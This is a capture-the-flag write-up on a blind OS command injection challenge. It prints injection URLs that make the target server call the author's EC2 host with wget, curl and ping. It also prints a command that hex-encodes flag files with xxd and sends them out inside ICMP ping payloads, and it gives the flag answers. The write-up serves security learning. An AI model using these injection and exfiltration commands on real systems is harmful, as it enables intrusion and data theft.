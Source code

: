## HACKIM8 - Web 3 - Blind OS command injection

In this interesting challenge, application is taking user input and passes it to a application code that runs a task on the underlying server. I have tried to execute simple OS commands but I could not able to see any response so immediately I have started my EC2 amazon server and force vulnerable app to send a request to my cloud server. I have tried below commands: 
   
      http://54.89.146.217/index.php?cmd=wget%20http://ec2-35-166-203-92.us-west-2.compute.amazonaws.com
      http://54.89.146.217/index.php?cmd=curl%20http://ec2-35-166-203-92.us-west-2.compute.amazonaws.com
 
 None of the above command worked for me. Either application was filtering word like wget, curl or it was not allowing any outbound connection however the last try worked for me and that was ping command:
 
      http://54.89.146.217/index.php?cmd=ping%20http://ec2-35-166-203-92.us-west-2.compute.amazonaws.com

I have started tcpdump on my cloud server and I was able to see ICMP packets.

![Alt text](https://github.com/sagarpopat/CTF-wirteup/blob/master/images/packet_1.PNG "Optional Title") 

I took the advantage of ping command I have tried to check if hping3 or scappy were installed on linux box but unfortunately none of them were present on server as I was not able to see any ICMP requests for below condition: 
       
       http://54.89.146.217/index.php?cmd=if test -e "/usr/bin/scappy";then ping -c2 http://ec2-35-166-203-92.us-west-2.compute.amazonaws.com;fi;
       http://54.89.146.217/index.php?cmd=if test -e "/usr/sbin/hping3";then ping -c2 ec2-35-166-203-92.us-west-2.compute.amazonaws.com;fi;

Alright so after spending enought time, I was able to figure out below important points:

- OS Commands were being executed on the server side but it was not reflecting back in response. 
- Server was also not accepting few utilities/commands like `wget`,`hping3`,`scappy`,`curl`,`http` and many more however it was accepting ping command so I need to read the flag file using some command and send that flag to my server through ICMP packet.

Before I execute any command blindly on CTF server, I thought to send few ICMP packets with some data from my local system to my cloud server.  

![Alt text](https://github.com/sagarpopat/CTF-wirteup/blob/master/images/ping_req.PNG "Optional Title") 

And immediatelly I was able to see "Hello World" in ICMP packet

![Alt text](https://github.com/sagarpopat/CTF-wirteup/blob/master/images/hello.PNG "Optional Title")


I quickly crafted command which will first read flag1 file and send that through ICMP packet. Below was my final attempt to read flagpart1.txt file:
 
    http://54.89.146.217/index.php?cmd=ping ec2-35-166-203-92.us-west-2.compute.amazonaws.com -p $(xxd -p /home/nullcon/flagpart1.txt)

Reading ICMP packets on my server using tcpdump
   
  ![Alt text](https://github.com/sagarpopat/CTF-wirteup/blob/master/images/flag1.PNG "Optional Title") 

Flag 1 from flagpart1.txt was '0omgth4t'. 

Reading flagpart2.txt file: 
   
    http://54.89.146.217/index.php?cmd=ping ec2-35-166-203-92.us-west-2.compute.amazonaws.com -p $(xxd -p /home/nullcon/flagpart2.txt)

Reading ICMP packets on my server using tcpdump

   ![Alt text](https://github.com/sagarpopat/CTF-wirteup/blob/master/images/flag2.PNG "Optional Title") 

Flag 2 from flagpart2.txt was 'aniceflag'. 
   
and our final flag(flagpart1+flagpart2) is
   
      flag{0omgth4taniceflag}
    
## Credits
- Shubham Mittal
- Sanjog Panda
- Archita Aparichita
- Pratap Chandra
- Chandrakant Nial
- Swaroop Yermalkar


